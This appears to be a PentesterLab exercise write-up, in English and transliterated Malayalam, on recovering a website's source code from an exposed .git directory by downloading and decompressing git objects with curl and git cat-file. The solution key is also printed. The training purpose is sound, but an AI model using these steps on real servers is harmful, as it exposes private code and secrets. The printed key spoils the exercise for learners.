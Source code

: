## Introduction
-->This exercise details how to retrieve information from an exposed .git directory on a web server. This time, the directly listing is disabled
-->In this exercise we are going to cover the exploitation of a website that leaks its `.git` repository in the root of the website.
-->With modern URL mapping (i.e. not relying on the filesystem), it's far less common to encounter these kinds of issues, but it's always important to be on the lookout for them.

## Exploitation
-->Here, we can access the `.git` directory in the root of the web server directly.
-->We can see that this time directory listing is disabled, making the task of retrieving the content of the repository a bit more difficult.
-->First, we can recover some files:
-   `.git/config`.
-   `.git/HEAD`.
-->From `.git/HEAD`, we can see that the `HEAD` is at `refs/heads/master`.
-->We can therefore access the file: `.git/refs/heads/master`.
-->From that file, we get a hash: `bc4f01bdd14060e4ac78b36972584909d287b6f1`.
-->This will link us to another file: `.git/objects/bc/4f01bdd14060e4ac78b36972584909d287b6f1` (by using the first two bytes as a directory's name and the rest as the file's name).
-->Once you download the file, you will need to decompress it. The compression is done using `zlib`.
-->Unfortunately, most systems don't have a native tool to decompress zlib-compressed files.
-->You can either use `gzip`:
```bash
printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - 4f01bdd14060e4ac78b36972584909d287b6f1 |gzip  -cd -q
```
-->or `ruby` (for example):
```rust
ruby -rzlib -e 'print Zlib::Inflate.new.inflate(STDIN.read)' < 4f01bdd14060e4ac78b36972584909d287b6f1
```
-->From there, we get a new commit that we can download, and from there, check the content by deflating it and running `strings -a` on the result:
```
$ ruby -rzlib -e 'print Zlib::Inflate.new.inflate(STDIN.read)' < ace0476093d04023f84d7816adacfa7b879c43 | strings -a
	 
	tree 182
	40000 css
	100644 favicon.ico
	s100644 footer.php
	3100644 header.php
	100644 index.php
```
-->Unfortunately, using `strings` does not give us the hash for each file. However, what ee can do is create our own local repo:
```
$ mkdir /tmp/hack
$ cd /tmp/hack
$ git init 
```
-->And copy our files to it:
```
	$ mkdir -p .git/objects/58 .git/objects/bc
	$ cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
	$ cp /tmp/4f01bdd14060e4ac78b36972584909d287b6f1 /tmp/hack/.git/objects/bc/
```
-->Then we should be able to retrieve the list of hashes:
```
	% git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
	040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
	100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
	100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
	100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
	100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php
```
-->Once you're there, you can keep downloading and copying the files to the right spot, in order to get access to the full code using `git cat-file -p ...`
-->Some tools like [Git-Money](https://github.com/dnoiz1/git-money), [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) and [GitTools](https://github.com/internetwache/GitTools) automate the retrieval of the remote content.
-->With this information, you should be able to find the key to solve this exercise, which is hidden in a `PHP` comment of one of the `.php` files.

## Conclusion
-->This exercise showed you how you can download the source code of a website, if the `.git` repository is exposed.

# Video Explanation
## Video - exploitation
-->lab open aakuka enit url il /.git/ enn kodukuka apol namuk forbidden enn kitum
-->forbidden enn kandathkond nirtharuth.chelapo namuk git access chyan patumayirikum but directory indexing aayirikum forbidden aayit kanikunath
-->so url il /.git/HEAD   enn kodukuka apol page il : `ref: refs/heads/master`   enn kanikum
-->so ith .git/ inte koode itt search chyuka ->ptl-4cf1559b-ebdad755.libcurl.so/.git/refs/heads/master
-->apol namuk oru hash kitum.ath git commit chyumbol namuk kituna hash aanen thonunu.->`59adb37be0c3c90e185e9bd2ce930c57a8b7d6beso` 
-->so ath copy chyth url il kodukanam ie, /objects/59adb37be0c3c90e185e9bd2ce930c57a8b7d6be   enn kodukanam enit send adichal onum aakila pakarnam ee hash inte aadyathe rand number in shesham oru slash itt hash split chyanam enit send adikumbol athinte file namuk kitum ie,
->http://ptl-4cf1559b-ebdad755.libcurl.so/.git/objects/59/adb37be0c3c90e185e9bd2ce930c57a8b7d6be
-->ipol namuk file kitum so ath download chyuka enit ini namuk terminal aavisham aan.so terminalil poi ->git init adikuka
-->`Initialized empty Git repository in /root/Documents/pentesterlab/blue/gitleadII/.git/`    en kanikum.
-->ini namal ->ls .git/objects ennadichal athinte ullil enthoke und en manasilakum
-->ini namuk aa hashstring ee objects enna directory il aakam.ivide hash thodangunath 59 il aan.so directory undakumbol 59 enn idanam.
-->adyam .git directory il ninum purath varuka.then :
->`mkdir .git/objects/59/ && curl ptl-4cf1559b-ebdad755.libcurl.so/.git/objects/59/adb37be0c3c90e185e9bd2ce930c57a8b7d6be -o .git/objects/59/adb37be0c3c90e185e9bd2ce930c57a8b7d6be`
-->ivide adyam namal 59 enna directory objects enna direcotry il aakunu.enit ee hash string athilek aakunu.ipol namal aa string 59 enna directory il aaki.ini namuk ith cat chyam.cat chyumbol 59 in shesham slash idaruth ok:
->`git cat-file -p 59adb37be0c3c90e185e9bd2ce930c57a8b7d6be`
```bash
tree 58ace0476093d04023f84d7816adacfa7b879c43
author Louis Nyffenegger <louis@pentesterlab.com> 1669991111 +0000
committer Louis Nyffenegger <louis@pentesterlab.com> 1669991111 +0000
```
-->ipol namuk ingane result kitum.ivide tree enn ezhuthiyath nok.ini aa commit hash string namuk edukam.enit nerthe pole chyam ok
->`mkdir .git/objects/58/ && curl ptl-4cf1559b-ebdad755.libcurl.so/.git/objects/58/ace0476093d04023f84d7816adacfa7b879c43 -o .git/objects/58/ace0476093d04023f84d7816adacfa7b879c43`
-->ipol namal aa puthya hash vech veendum chyuthu.ini aa 58 enn object inte ulllile directory read chyam(ithum .git diretoy inte purath ninu aan chyunath ok) :
->`git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43`
```bash
040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php
```
-->ingane kitum.so ithil namuk vendunath eduth nokam.so index.php nokam
->`mkdir .git/objects/88/ && curl ptl-4cf1559b-ebdad755.libcurl.so/.git/objects/88/beb94b5e1fc48e1625c89f892b04bffb58225c -o .git/objects/88/beb94b5e1fc48e1625c89f892b04bffb58225c`
-->`git cat-file -p 88beb94b5e1fc48e1625c89f892b04bffb58225c`
-->ignane chyth nokumbol kituna source code il prathyekich onum ila.so ini namuk header.php nokam:
->`mkdir .git/objects/c3/ && curl ptl-4cf1559b-ebdad755.libcurl.so/.git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82 -o .git/objects/c3/646db7f9c7e6f126c75900fdcce16d50e1da82`
-->ipol namal objects directory il c3 enna puthiya directory aak athil aan ee commit string save chyunath ok.ini ith read chyam :
->`git cat-file -p c3646db7f9c7e6f126c75900fdcce16d50e1da82`
```php
<?php 
  // The KEY IS: 7a56a0cc-f042-4b43-97de-d4427197e8fa
  date_default_timezone_set('UTC');
?>
<!-- PentesterLab --> 
<html>
    <head>
        <title>...........
        ..........
```
-->so ivide ee source code il ninum namuk venda key kitunund.ok
-->ithipo namal manually aan chythath.but pala tools und athoke vech automate chythal namuk peten ella commitsilum chythath peten kanan patum.
-->==NOTE : ivide namal ee chythathoke .git enna file aakitan ie,git init command vech ok.pakshe namal orikal polum ee .git file inte ullil kerunila.aake chyunath ls .git/objects  enna directory undon nokuka mathram aan.karanam athil aan oro commit string um add chyunath ok==
-->so first namal head il ninum aadyathe hash string eduthu.enit ath namal namude machine il save chythu oru file aayit.enit git command vech namal athinte ullilek keri.enit avide vech namal aduthe hash string kandupidichu angane anagen namal matu hash string kandupidich source code il keri key kandethunu ok.athayath oro commit kitunthorum kooduthal info kitum anagne namal key kandethunu

